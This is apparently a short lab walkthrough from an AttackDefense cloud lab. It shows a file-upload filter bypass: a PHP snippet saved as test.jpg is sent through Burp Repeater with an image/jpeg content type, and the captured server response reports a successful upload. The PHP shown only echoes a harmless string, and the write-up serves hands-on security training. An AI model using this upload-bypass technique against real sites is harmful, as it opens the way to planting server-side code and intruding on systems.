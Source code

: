 `echo '<?php echo "This is not a real jpg image" ?>' > ./test.jpg`

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------3389900069635376210896551091
Content-Length: 254
Origin: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com
Referer: https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------3389900069635376210896551091
Content-Disposition: form-data; name="fileToUpload"; filename="test.jpg"📌
Content-Type: image/jpeg📌

<?php echo "This is not a real jpg image" ?>📌

-----------------------------3389900069635376210896551091--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 13:53:34 GMT
Server: nginx/1.4.6
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4060


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a>📌                    </div>

[...]
```
